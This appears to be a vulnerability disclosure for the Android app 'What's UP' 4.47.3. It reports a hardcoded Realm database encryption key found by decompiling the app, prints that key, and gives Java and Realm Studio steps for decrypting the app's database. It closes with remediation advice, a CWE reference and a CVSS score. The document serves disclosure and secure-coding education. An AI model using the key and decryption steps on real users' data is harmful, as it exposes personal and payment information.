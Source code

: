 # [Hardcoded Realm Database Encryption Key] found in What's UP Android App 4.47.3 - (RealmDB.java)

Affected Project: **WHAT'S UP 4.47.3**

Platform: Android

Vendor: Cosmote Greece

Official Application Link: (https://play.google.com/store/apps/details?id=gr.cosmote.whatsup)

Version: 4.47.3

Updated: Oct 10, 2024

<br />

> Installs: 5,000,000+

> Category: Tools

> Android Version Code: 2410115

> File Name: gr.cosmote.whatsup.apk

> Size: 20.06MB

> SHA256: 56fcd6278c70af76b342bd3374b5322d0531a5fe6db8a4dffdcd8002ade59d51

<br /> 

The application embeds a hardcoded encryption key `(defaultRealmKey)` within the source code file `gr/desquared/kmmsharedmodule/db/RealmDB.java`. This key is used to encrypt the Realm database file named `defaultKMMV4.realm.enc`. Because the encryption key is hardcoded and packaged inside the APK, an attacker can extract it from the APK file. This exposure enables the attacker to decrypt the database file, leading to unauthorized access to confidential user information, including sensitive personal data and credit card details.


<br /> Vulnerability found at: **RealmDB.java**

Path: gr/desquared/kmmsharedmodule/db/RealmDB.java

<br />  

## Vulnerability Analysis:

Tool for decompiling the simple architect .apk or bundle file: [Jadx](https://github.com/skylot/jadx)

The RealmDB class in RealmDB.java is responsible for managing the encrypted Realm database within the mobile application: 

```
public final class RealmDB {
    public static final String ENCRYPTED_REALM = "ENCRYPTED_REALM";
    public static final RealmDB INSTANCE = new RealmDB();
    private static final String databaseName = "defaultKMMV4";
    private static final String defaultRealmKey = "1234567812345678123456781234567812345678123456781234567812345678";
    private static final String encryptedRealmFileName = "defaultKMMV4.realm.enc";
    private static final long encryptedRealmVersion = 80;
```

Within this class there is a hardcoded encryption key used for securing the database:

```
private static final String defaultRealmKey = "1234567812345678123456781234567812345678123456781234567812345678";
```

<br />

## Impact

1. Predictable Key: A hardcoded encryption key, especially one that is the same across all installations of the application, is inherently insecure. Attackers who decompile the application can easily extract this key.

2. Ease of Decryption: With access to the encryption key, an attacker can decrypt the database contents if they gain access to the device or a backup of the application's data, compromising sensitive user information.

3. Regulatory Non-Compliance: As the application stores personal data and credit cards info, the use of weak encryption practices may violate data protection regulations like GDPR, HIPAA, etc.


<br />

## Decryption sample code

The defaultRealmKey string is converted into a byte array before being used.

Convert the Encryption Key:

```
// Java example
String defaultRealmKey = "1234567812345678123456781234567812345678123456781234567812345678";
byte[] keyBytes = defaultRealmKey.getBytes(StandardCharsets.UTF_8);
```


Configure Realm with the Encryption Key:

```
// Java example
RealmConfiguration config = new RealmConfiguration.Builder()
    .name("defaultKMMV4.realm.enc")
    .encryptionKey(keyBytes)
    .schemaVersion(80)
    .build();
```


Open the Encrypted Realm:

```
// Java example
Realm realm = Realm.getInstance(config);
```


Access and Export Data:

```
// Java example
RealmResults<YourRealmObject> results = realm.where(YourRealmObject.class).findAll();
```


<br />

## Alternative decryption method: Using Realm Studio

Convert the Key to Hexadecimal Format as Realm Studio requires the encryption key in hexadecimal format:

```
// Java code
String defaultRealmKey = "1234567812345678123456781234567812345678123456781234567812345678";
byte[] keyBytes = defaultRealmKey.getBytes(StandardCharsets.UTF_8);

// Convert byte array to hex string
StringBuilder hexString = new StringBuilder();
for (byte b : keyBytes) {
    String hex = String.format("%02x", b);
    hexString.append(hex);
}

String encryptionKeyHex = hexString.toString();
```


Now launch Realm Studio.
Open the encrypted Realm file (defaultKMMV4.realm.enc).

When prompted, enter the hexadecimal encryption key (encryptionKeyHex).

<br />


## Recommendations for Secure Encryption Key Management


1. Use the Android Keystore System for Secure Key Storage

Benefits:

Hardware-backed Security: Keys can be stored in hardware-backed keystores on devices that support it.

Isolation: Keys are stored outside the app's process space, making them more resistant to extraction.

<br />

2. Generate Unique Encryption Keys per Device or User

Benefits: 

Using unique keys minimizes the impact if a key is compromised. It ensures that only data on a particular device or user account is at risk, not all users.


Methods:
Per-Device Keys: Generate a key during the first launch of the app and store it securely.

Per-User Keys: If your app has user authentication, derive the key from user-specific credentials.

<br />


3. Use a Key Derivation Function (KDF)

Benefits:

Even if the KDF parameters are known, without the original input (password/PIN), the key cannot be derived.

Choose a Strong KDF: For example PBKDF2.

CWE-312: Cleartext Storage of Sensitive Information

CVSS v3.1 Base Score: 7.8 (High)

<br />

DONE !
